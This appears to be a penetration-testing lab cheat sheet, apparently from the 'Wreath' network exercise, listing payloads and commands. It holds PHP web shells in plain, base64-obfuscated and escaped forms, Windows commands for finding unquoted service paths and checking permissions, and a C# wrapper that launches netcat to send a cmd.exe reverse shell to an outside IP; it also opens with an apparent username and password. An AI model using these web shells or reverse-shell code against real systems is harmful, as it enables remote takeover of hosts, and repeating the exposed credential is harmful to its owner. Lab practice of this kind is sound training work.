`Thomas:i<3ruby`



### Alternate PHP Payload

```
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

### Obfuscated Payload

```
<?php $e0=$_GET[base64_decode('d3JlYXRo')];if(isset($e0)){echo base64_decode('PHByZT4=').shell_exec($e0).base64_decode('PC9wcmU+');}die();?>
```
### Character Escaped Payload

```
<?php \$e0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$e0)){echo base64_decode('PHByZT4=').shell_exec(\$e0).base64_decode('PC9wcmU+');}die();?>
```

<?php system($_GET['cmd']);?>


### Display Non-Default Services (Windows)

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`


Unquoted Service Path Found: SystemExplorerHelpService



### Check What Account Service is Running As

`sc qc SERVICE_NAME`

### Check Directory Permissions


`powershell "get-acl -Path <service_path> | format-list"`

`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`


### C# Reverse Shell Wrapper

Wrapper.cs

```
using System;
using System.Diagnostics;
namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\xampp\\htdocs\\resources\\uploads\\nc-al.exe", "10.50.85.95 443 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
```